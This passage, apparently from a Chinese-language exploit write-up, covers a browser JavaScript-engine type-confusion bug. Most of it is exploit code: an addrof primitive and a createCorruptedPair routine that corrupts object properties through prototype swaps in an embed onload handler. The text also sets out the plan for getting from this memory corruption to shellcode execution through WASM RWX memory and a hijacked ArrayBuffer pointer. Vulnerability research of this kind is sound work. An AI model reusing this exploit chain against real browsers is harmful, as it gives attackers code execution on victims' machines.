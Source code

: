 ```javascript

write_heap_mem(od);

console.log(double_arr.length);

addrof = (o) => {
	obj_arr[0] = 0;
	return low32u(ftou(double_arr[0]));
}
```

### 完成利用

通过类型混淆，我们已经得到了读写堆上任意 JavaScript 对象的能力。我们只需要在此基础上：

- 实现 addrof
- 利用 WASM 编译机制，取得一段 RWX 内存的地址
- 创建一个 `ArrayBuffer` 对象，利用内存读写，修改 `ArrayBuffer` 内部的缓冲区指针，改为 RWX 内存所在位置
- 用上一步的 `ArrayBuffer` 创建一个 `Uint8Array`，将 shellcode 填入 `Uint8Array`
- 调用 WASM 导出函数，触发 shellcode 执行

完整的利用代码如下：

```javascript
createCorruptedPair = (proto, value_1, value_2) => {
	setPropertyViaEmbed = (object, value, handler) => {
		const embed = document.createElement('embed');
		embed.onload = handler;
		embed.type = 'text/html';
		Object.setPrototypeOf(proto, embed);
		document.body.appendChild(embed);
		object.corrupted_prop = value;
		embed.remove();
	}

  const object_1 = {
    __proto__: proto
  };
  object_1.regular_prop = 1;


  setPropertyViaEmbed(object_1, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_1.corrupted_prop = value_1;
  });


  const object_2 = {
    __proto__: proto
  };
  object_2.regular_prop = 1;


  setPropertyViaEmbed(object_2, value_2, () => {
    Object.setPrototypeOf(proto, null);
    object_2.corrupted_prop = value_1;
    object_1.regular_prop = 1.1
  });


  return [object_1, object_2];
}

double_arr = [1.1]
obj_arr = [double_arr, {}]
```
